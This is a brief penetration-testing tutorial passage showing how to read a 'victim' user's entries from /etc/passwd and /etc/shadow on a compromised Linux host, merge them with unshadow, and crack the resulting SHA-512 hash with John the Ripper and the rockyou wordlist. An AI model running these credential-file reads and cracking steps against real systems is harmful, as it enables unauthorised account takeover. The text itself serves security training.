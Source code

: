 TODO(Check why all this unshadowing is needed??)

In order to crack Linux-based hashes with JTR, we will need to first use the unshadow utility to combine the passwd and shadow files from the compromised system. 
```sh
kali@kali:~$ grep victim /etc/passwd > passwd-file.txt
kali@kali:~$ grep victim /etc/shadow > shadow-file.txt

kali@kali:~$ unshadow passwd-file.txt shadow-file.txt
victim:$6$fOS.xfbT$5c5vh3Zrk.88SbCWP1nrjgccgYvCC/x7SEcjSujtrvQfkO4pSWHaGxZojNy.vAqMGrBBNOb0P3pW1ybxm2OIT/:1003:1003:,,,:/home/victim:/bin/bash

kali@kali:~$ unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
```
Cracking a Linux password hash using John the Ripper
```sh
kali@kali:~$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
